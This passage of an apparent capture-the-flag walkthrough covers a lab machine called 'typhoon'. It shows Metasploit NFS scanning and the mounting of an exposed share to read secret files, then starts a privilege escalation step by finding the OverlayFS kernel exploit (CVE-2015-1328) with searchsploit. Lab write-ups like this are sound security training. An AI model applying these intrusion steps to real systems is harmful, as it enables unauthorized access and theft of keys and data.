 In the Metasploit console:

```
msf5 > search nfs

Matching Modules
================

   Name                                   Disclosure Date  Rank     Check  Description
   ----                                   ---------------  ----     -----  -----------
   [...]
   auxiliary/scanner/nfs/nfsmount                          normal   Yes    NFS Mount Scanner
   [...]
msf5 > use auxiliary/scanner/nfs/nfsmount
msf5 auxiliary(scanner/nfs/nfsmount) > set rhost 10.99.59.112
rhost => 10.99.59.112
msf5 auxiliary(scanner/nfs/nfsmount) > run

[+] 10.99.59.112:111      - 10.99.59.112 NFS Export: /typhoon [*]
[*] 10.99.59.112:111      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

The NFS server is sharing a folder at `/typhoon`. Let's mount it.

```
$ mkdir /tmp/typhoon
$ mount -t nfs 10.99.59.112:/typhoon /tmp/typhoon
$ cd /tmp/typhoon
$ ls -lA
total 12
-rw-r--r-- 1 root root   24 Oct 22 17:50 .secret
-rw-r--r-- 1 root root   63 Oct 24 06:58 secret
-rw------- 1 root root 1766 Oct 22 17:51 .secret.rsa
$ cat .secret
belong to typhoon user.
$ cat .secret.rsa
cat: .secret.rsa: Permission denied
$ cat secret
<FLAG>
```

Another flag. 2/4 flags.

## Step 3: Privilege escalation

### OverlayFS (CVE-2015-1328)

This machine runs Ubuntu Linux 14.04 3.13.0. We can use `searchsploit` to see if
there are any published exploits for this kernel version.

```
$ searchsploit 3.13.0
----------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                 |  Path
                                                                                                                                               | (/usr/share/exploitdb/)
----------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation                                           | exploits/linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation (Access /etc/shadow)                      | exploits/linux/local/37293.txt
```